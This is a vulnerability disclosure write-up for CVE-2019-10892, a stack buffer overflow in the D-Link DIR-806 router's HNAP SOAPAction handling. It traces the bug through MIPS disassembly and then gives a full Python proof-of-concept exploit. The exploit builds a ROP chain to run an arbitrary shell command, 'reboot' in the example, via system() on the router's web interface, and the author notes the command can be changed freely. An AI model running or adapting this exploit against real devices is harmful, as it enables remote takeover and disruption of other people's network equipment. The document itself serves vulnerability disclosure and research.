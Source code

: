 # DIR-806_Stack Overflow to Run Shellcode

**CVE-2019-10892**

The fireware is the lasted version of DIR-806 in DLINK website：
```
http://support.dlink.com.cn/ProductInfo.aspx?m=DIR-806 
```
## Vulnerability Analyze
just like the start of:
```
https://github.com/Kirin-say/Vulnerabilities/blob/master/DIR-806_Code_Injection.md
```
When the router get the request of HNAP, it will call the hnap_main() function in /htdocs/cgibin,then it get SOAPAction by getenv :
```
.text:00411FAC                 la      $a0, aHttp_authoriza  # "HTTP_AUTHORIZATION"
.text:00411FB0                 lui     $a0, 0x42  # 'B'
.text:00411FB4                 lw      $gp, 0x248+var_230($sp)
.text:00411FB8                 la      $a0, aHttp_soapactio  # "HTTP_SOAPACTION"
.text:00411FBC                 la      $t9, getenv
.text:00411FC0                 jalr    $t9 ; getenv
.text:00411FC4                 move    $s2, $v0
.text:00411FC8                 lui     $a0, 0x42  # 'B'
.text:00411FCC                 lw      $gp, 0x248+var_230($sp)
.text:00411FD0                 la      $a0, aRequest_method  # "REQUEST_METHOD"
.text:00411FD4                 la      $t9, getenv
```
then it will check the SOAPAction start with `http://purenetworks.com/HNAP1/GetDeviceSettings`:
```
.text:00411FF0                 la      $t9, strstr
.text:00411FF4                 la      $a1, aHttpPurenetwor  # "http://purenetworks.com/HNAP1/GetDevice"...
.text:00411FF8                 jalr    $t9 ; strstr
.text:00411FFC                 move    $a0, $s0         # haystack
.text:00412000                 lw      $gp, 0x248+var_230($sp)
.text:00412004                 bnez    $v0, loc_412044
```
then the function will get the string in SOAPAction that after the right "/" by strrchr:
```
.text:00412044                 la      $t9, strrchr
.text:00412048                 move    $a0, $s0         # s
.text:0041204C                 jalr    $t9 ; strrchr
.text:00412050                 li      $a1, 0x2F  # '/'  # c
.text:00412054                 lw      $gp, 0x248+var_230($sp)
.text:00412058                 bnez    $v0, loc_412080
```
then it will call the sprintf function but it won't check the length of the strings that it goyt by strrchr,and it store it in the stack:
```
.text:00412430                 lui     $a1, 0x42  # 'B'
.text:00412434                 move    $a0, $s4         # s
.text:00412438                 addiu   $a2, (aVarRun_0 - 0x420000)  # "/var/run/"
.text:0041243C                 la      $a1, aShSS_shDevCo_0  # "sh %s%s.sh > /dev/console &"
.text:00412440
.text:00412440 loc_412440:                              # CODE XREF: hnap_main+4D8↑j
.text:00412440                 jalr    $t9 ; sprintf
```
so that we can overflow the $s0-s7 and $ra when hnap_main return:
```
.text:004124C4                 lw      $ra, 0x248+var_4($sp)
.text:004124C8                 lw      $s7, 0x248+var_8($sp)
.text:004124CC                 lw      $s6, 0x248+var_C($sp)
.text:004124D0                 lw      $s5, 0x248+var_10($sp)
.text:004124D4                 lw      $s4, 0x248+var_14($sp)
.text:004124D8                 lw      $s3, 0x248+var_18($sp)
.text:004124DC                 lw      $s2, 0x248+var_1C($sp)
.text:004124E0                 lw      $s1, 0x248+var_20($sp)
.text:004124E4                 lw      $s0, 0x248+var_24($sp)
.text:004124E8                 jr      $ra
.text:004124EC                 addiu   $sp, 0x248
```
If we make a rop chain in stack,it will finally call the system(our cmd)
## POC
```
from pwn import *
import requests
import sys
def get_payload():
  cmd="reboot;".ljust(30,"a")
  libc_addr=0x7679BA60-0x002aa60
  payload="http://purenetworks.com/HNAP1/GetDeviceSettings/"
  payload+="aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa"  
  payload+="aaaa"*6
  payload+=p32(libc_addr+0x003E204)[::-1]#s6
  payload+=p32(libc_addr+0x052510)[::-1]#s7
  payload+=p32(libc_addr+0x0F5B4)[::-1]#ra->get cmd in s4->jar s6
  payload+="aaaa"*4
  payload+=cmd
  return payload
data="<?xml version=\"1.0\" encoding=\"UTF-8\"?>\
<soap:Envelope xmlns:xsi=\"http://www.w3.org/2001/XMLSchema-instance\" xmlns:xsd=\"http://www.w3.org/2001/XMLSchema\" xmlns:soap=\"http://schemas.xmlsoap.org/soap/envelope/\" soap:encodingStyle=\"http://schemas.xmlsoap.org/soap/encoding/\">\
  <soap:Body>\
    <GetWanSettings xmlns=\"http://purenetworks.com/HNAP1/\">\
    </GetWanSettings>\
  </soap:Body>\
</soap:Envelope>"

if __name__=="__main__":
    fake_cmd=get_payload()
    header = {
        'SOAPAction' : fake_cmd,
        'Cookie'        : "uid=LS32Srlx8N",
        'Content-Type'  : 'text/xml',
        'Content-Length': str(len(data))
        }
    url="http://192.168.0.1/HNAP1/"
    r=requests.post(url=url,headers=header,data=data)
    log.info("Kirin-say PWN")
```
you can also edit the cmd to run different shell,but you should also edit the libc_addr because I write this POC by qemu,so you should edit offset of libc.so.0 in real environment.
 For example(the router reboot successfully) 
![Success](https://upload-images.jianshu.io/upload_images/7434375-a0bda011a271ec24.png?imageMogr2/auto-orient/strip%7CimageView2/2/w/1240)
